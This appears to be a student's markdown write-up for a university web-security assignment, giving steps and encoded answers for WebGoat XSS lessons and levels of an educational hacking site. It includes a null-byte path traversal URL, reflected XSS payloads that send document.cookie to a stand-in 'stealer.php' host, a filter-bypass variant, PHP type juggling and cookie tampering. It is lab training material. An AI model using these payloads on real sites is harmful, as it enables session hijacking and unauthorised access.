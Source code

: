 # Assignment 4

* Do the following lessons in WebGoat (you do not have to submit any notes regarding these exercises to blackboard):

	* Cross-Site Scripting (XSS) - Stored XSS attacks

		* ![StoredXSS1](img/stored_xss_1.PNG)
		* ![StoredXSS2](img/stored_xss_2.PNG)

	* Cross-Site Scripting (XSS) - Reflected XSS attacks

		* ![ReflectedXSS](img/reflected_xss.PNG)	

* Do the following four exercises on http://websecurity.cs.ru.nl/
	
	* Level 3

		* http://websecurity.cs.ru.nl/?level=3&nieuws=admin/index.php
		* Solution: YTgwZWM1NDg2

	* Level 4
		* http://websecurity.cs.ru.nl/?level=4&nieuws=admin/index.php%00
		* The appended string "%00" represents the nullbyte (\0) and forces php to ignore every appended string behind it
		* See also: http://stackoverflow.com/questions/12731547/can-an-appended-file-suffix-to-a-parameter-for-file-get-contents-be-bypassed
		* Solution: ZjQ5ZmVlOTZm

	* Level 5

		* Use your own host and the cookie stealer script provided on the websec website.
		* In the searchterm field enter: ``` <script>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</script>```
		* Click on the search button and use Webscarab to get the resulting url to the search term.
		* Go to the contact site and enter the before mentioned url you created with your malicious code.
		* Solution: NzM2MGUzMWJh

	* Level 6
		
		* Nearly the same approach as Level 5 but this time greater than and less than symbols are getting filtered. There is no recursive filtering though.
		* We can therefore use a snippet like this for the searchterm: ``` <scr<script>ipt>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</scr</script>ipt> ```
		* See also: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)#Example_5:_Bypassing_non-recursive_filtering
		* Solution: NDY3YjMwZjRl

	* Level 7

		* There is a bug in the strcmp funtion which cannot handle arrays as input and therefore returns 0 which gives you the solution. Inspect the html source and change the name of the input field "pass" to "pass[]".
		* See also: https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf
		* Solution: YjU1NWY4MzBi

	* Level 8
	
		* No idea so far. Seems like i have to change the referer.

	* Level 9
	
		* Do a post request with some testdata for the input fields. Take a look at this post request in WebScarab and change the cookie value "LoggedIn=false" to "LoggedIn=true".
		* When you fire the manual request in WebScarab, you should be able to see the password.
		* Solution: OGRkNDRmMDU3	

	* Level 10
		
		* Just reverse the encryption steps
		* ```
			function reverseHexdigest() {
			  var hexdigest = "447b5974467c6f5f600a4261";
			  
			  var deximalRepresentation = [68, 123, 89, 116, 70, 124, 111, 95 , 96, 10, 66, 97];
			  var reversedShuffled = shuffle([6, 1, 5, 10, 8, 2, 0, 7,3 ,4 ,11 ,9], deximalRepresentation);
			  var reversedXor = xor([32, 44, 38, 41, 46, 35, 47, 39, 46, 44, 48, 57], reversedShuffled);


			  console.log(String.fromCharCode.apply(null, reversedXor));  
			};

		* Solution: OWZkNzkxZjQ3	



		






	